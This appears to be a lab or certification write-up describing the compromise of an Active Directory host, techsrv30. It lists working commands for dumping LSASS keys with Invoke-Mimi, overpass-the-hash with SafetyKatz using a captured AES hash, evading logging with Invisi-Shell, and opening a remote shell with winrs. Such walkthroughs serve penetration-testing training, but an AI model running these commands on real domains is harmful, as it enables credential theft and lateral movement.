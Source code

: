 ***
## ***System Information***
***

Hostname: **techsrv30**

IP Address: **172.16.6.30**

***
## **Steps to Compromise**
***

- Since we now have access to `mgmtsrv.tech.finance.corp` as **administrator**, we can go ahead and extract encryption keys stored in LSASS memory with the tool `Invoke-Mimi.ps1`

```
. .\ invoke-mimi.ps1
Invoke-Mimi -Command '"sekurlsa::ekeys"'
```

![](https://i.imgur.com/VWFdecs.png)

- We were able to find `Techservice` `aes256_hmac` hash, we can use `SafetyKatz` to OverPass-the-Hash for the user `techservice`, open up a new command prompt process with administrative access loaded with invisi-shell 

> Overpass-the-Hash" refers to a variation of the "Pass-the-Hash" attack technique, where attackers not only capture hashed passwords from a compromised system but also manipulate or forge these hash values for malicious purposes

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:techservice /domain:TECH.FINANCE.CORP /aes256:7f6825f607e9474bcd6b9c684dc70f7c1ca977ade7bfd2ad152fd54968349deb /run:cmd.exe" "exit"
```

![](https://i.imgur.com/7rkq2Z4.png)

- The new process that starts has `techservice` privileges. Check if `techservice` has admin privileges on any other machine using `Find-PSRemotingLocalAdminAccess.ps1`

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 

. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1 

Find-PSRemotingLocalAdminAccess
```

![](https://i.imgur.com/M75UjvW.png)

- We have local admin access on the `techsrv30` server as `techservice`, we can go ahead and spawn an interactive shell on `techsrv30` using `winrs`

```
winrs -r:techsrv30 cmd
```
